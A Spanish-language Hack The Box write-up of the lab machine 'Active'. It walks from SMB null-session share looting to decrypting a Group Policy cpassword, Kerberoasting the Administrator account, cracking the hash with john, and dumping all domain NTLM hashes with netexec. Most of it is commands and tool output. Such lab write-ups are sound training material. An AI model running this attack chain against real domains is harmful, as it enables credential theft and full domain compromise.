










# Active - Writeup HTB

**Dificultad:** Easy | **SO:** Windows | **XP:** 450

---

## Reconocimiento

### Escaneo de puertos



```bash
❯ nmap -p- --open --min-rate 1000 -Pn 10.129.17.169 -oN ServicesScan -vvv
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49162/tcp open  unknown
49166/tcp open  unknown
49168/tcp open  unknown
```

```bash
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49162,49166,49168 -sCV 10.129.17.169 -vv -Pn -n -oN servicesScan

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1

Host script results:
| smb2-security-mode:
|   2.1:
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time:
|   date: 2026-06-19T21:59:41
|_  start_date: 2026-06-19T21:47:48
```

El perfil de puertos es inequívoco: estamos ante un **Domain Controller** con Windows Server 2008 R2 SP1. El dominio es **active.htb** y el hostname es **DC**. La firma SMB está habilitada y requerida.

---

## Enumeración SMB

### Listado de shares con null session

```bash
❯ enum4linux-ng 10.129.17.169
```



```bash
❯ netexec smb 10.129.17.169 -u '' -p '' --shares
```



Con sesión nula (sin credenciales) obtenemos acceso de lectura al share **Replication**. Los shares administrativos (`ADMIN$`, `C$`) y los de dominio (`SYSVOL`, `NETLOGON`, `Users`) no son accesibles sin autenticación.

### Extracción de archivos del share Replication

- https://www.thehacker.recipes/infra/protocols/smb#data-exfiltration

```bash
❯ smbclient \\\\10.129.17.169\\Replication
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```



Con `recurse ON` y `prompt OFF` descargamos recursivamente todo el contenido del share. La estructura descargada replica la de `SYSVOL`, que típicamente contiene **Group Policy Objects (GPOs)**.

---

## GPP Password — Groups.xml

### Hallazgo de credenciales cifradas

Revisando el árbol de archivos descargado encontramos el archivo clave:

```bash
❯ cat Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```



El campo `cpassword` contiene una contraseña cifrada con AES-256. Esta es la vulnerabilidad conocida como **GPP Password (MS14-025)**: Microsoft publicó la clave AES estática utilizada para cifrar contraseñas en archivos de preferencias de GPO, lo que hace que cualquier `cpassword` sea trivialmente descifrable.

### Descifrado con gpp-decrypt

- https://github.com/t0thkr1s/gpp-decrypt

```bash
❯ python3 gpp-decrypt.py -c 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```



```
svc_tgs : GPPstillStandingStrong2k18
```

Credenciales válidas del dominio obtenidas. El usuario `SVC_TGS` es una cuenta de servicio, lo que la hace candidata perfecta para un ataque **Kerberoasting**.

---

## Kerberoasting — Escalada a Administrator

### Enumeración de SPNs

Con las credenciales de `svc_tgs` consultamos los **Service Principal Names (SPNs)** registrados en el dominio:

```bash
❯ impacket-GetUserSPNs -dc-ip 10.129.17.169 active.htb/svc_tgs
```



La cuenta **Administrator** tiene registrado el SPN `active/CIFS:445`. Esto es inusual y altamente explotable: significa que podemos solicitar un **TGS (Ticket Granting Service)** para Administrator y crackearlo offline.

### Solicitud del TGS

Obtenemos el TGS

```bash
❯ impacket-GetUserSPNs -dc-ip 10.129.17.169 active.htb/svc_tgs -request
```



Obtenemos el hash TGS en formato `$krb5tgs$23$*...` (RC4-HMAC / etype 23). Lo guardamos en un archivo y procedemos a crackearlo offline.

### Cracking del hash con John

ahora crackeamos:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt tgs_krb5
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:06 DONE (2026-06-19 18:23) 0.1430g/s 1507Kp/s 1507Kc/s 1507KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

En menos de 7 segundos obtenemos la contraseña del Administrador:

```
Administrator : Ticketmaster1968
```

---

## Acceso como Administrator

```bash
❯ netexec smb 10.129.17.169 -u Administrator -p Ticketmaster1968 -x "type C:\users\administrator\desktop\root.txt"
```



### Post-explotación — Dump del NTDS

```bash
❯ nxc smb 10.129.17.169 -u Administrator -p Ticketmaster1968 --ntds
```



Obtenemos los hashes NTLM de todas las cuentas del dominio: `Administrator`, `Guest`, `krbtgt`, `SVC_TGS` y `DC$`. Con el hash de `krbtgt` sería posible forjar **Golden Tickets** para persistencia total en el dominio.

